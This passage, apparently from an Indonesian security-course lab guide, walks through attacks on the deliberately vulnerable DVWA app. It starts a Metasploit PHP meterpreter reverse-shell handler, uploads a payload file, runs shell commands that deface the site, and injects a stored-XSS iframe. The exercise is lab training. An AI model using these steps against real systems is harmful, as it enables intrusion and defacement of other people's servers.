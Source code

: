 2. Buka file PHONE_HOME.php , dan hilangkan tanda # di baris awal file
3. Buka terminal dan ketikkan msfconsole
4. Jalankan perintah berikut
```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.1.102
set LPORT 4444
exploit
```
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/23.PNG)

5. Login ke DVWA, Masuk ke menu Upload. dan upload PHONE_HOME.php. Jika berhasil akan seperti gambar :
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/24.PNG)

6. Buka http://10.0.1.100/dvwa/hackable/uploads/ dan klik PHONE_HOME.php. Jika berhasil akan seperti gambar

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/25.PNG)

7. Jalankan perintah :
```
    shell        
    uptime
    pwd
    whoami
    w
    echo "Hacked By PKSJ" > hacked.html
    ls -l
```
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/26.PNG)
8. Jika berhasil maka file hacked.html sudah ada di DVWA

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/27.PNG)
### Lesson 9: Cross Site Scripting (XSS)

1. Ubah limit script guna melancarkan aksi
Buka metasploitable dan ketikkan perintah berikut :
```
cd /var/www/dvwa/vulnerabilities/xss_s/
vi index.php
```
cari kata mtxMessage di vi dengan mengetik kan:
```
/mtxMessage
```
ubah maxlength yang awalnya 50 mejadi 250

2. Di firefox BAcktrack  matikan fitur BLOCK POP UP WINDOWS dan nyalakan fitur ENABLE JAVASCRIPT
3. SKenario expolit IFRAME di XSS STORED
Login ke DVWA buka menu XSS STORED. ISi seperti di bawah ini :
```
    Name: Test 2
    Message: <iframe src="http://www.cnn.com"></iframe>
    Click Sign Guestbook
```
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/28.PNG)
